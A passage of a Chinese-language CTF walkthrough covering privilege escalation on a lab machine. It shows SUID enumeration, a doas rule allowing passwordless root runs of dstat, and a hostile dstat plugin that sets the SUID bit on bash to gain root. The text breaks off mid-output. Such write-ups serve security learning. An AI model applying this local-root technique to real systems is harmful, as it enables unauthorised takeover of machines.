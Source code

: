 
## 提权

惯例先看一眼 `sudo -l`，显示没有sudo执行。然后看看SUID：
```bash
-bash-5.0$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
-bash-5.0$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
……
```

其实提权利用的就是这个 `doas`，不过我最开始错过了。还花了一些时间去扫描，如用[LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)，也并未发现什么有用的信息。

不过其实就算一开始不知道这个doas，只要谷歌一下linux提权什么的，也能找到一些文章会提到这个命令的提权。想想也确实算是基本技能了。  
> <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas>  
> <https://0x1.gitlab.io/exploit/Linux-Privilege-Escalation/#doas>  
>> There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf

看了眼没有 `/etc/doas.conf`，不过搜到在另一个地方：  
```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```

### PoC (CVE-2009-3894)

即：可以无密码以root权限执行 `/usr/bin/dstat`，那么再搜一下 `dstat` 是否有什么利用。  
> 漏洞披露：<https://www.rapid7.com/db/vulnerabilities/gentoo-linux-cve-2009-3894/>  
> 漏洞披露：<https://vulners.com/centos/CESA-2009:1619>  
> exp：<https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/#dstat>

```bash
player@soccer:~$ find / -type d -name dstat -exec ls -ld {} \; 2>/dev/null
drwxr-xr-x 2 root root 4096 Nov 17 09:09 /usr/share/doc/dstat
drwxr-xr-x 3 root root 4096 Nov 17 09:09 /usr/share/dstat
drwxrwx--- 2 root player 4096 Jan  8 09:15 /usr/local/share/dstat
```

`/usr/local/share/dstat` 有写入权限，那么去这个目录进行后续exploit：  
```bash
player@soccer:~$ cd /usr/local/share/dstat

player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('chmod +s /usr/bin/bash')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ cat dstat_exploit.py 
import os
os.system('chmod +s /usr/bin/bash')
player@soccer:/usr/local/share/dstat$ dstat --list
internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,
        mem,mem-adv,net,page,page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,
        zones
/usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,
        disk-util,disk-wait,dstat,dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,
        helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,jvm-vm,lustre,md-status,memcache-hits,
        mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,mysql-io,mysql-keys,
        mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,
        net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,
```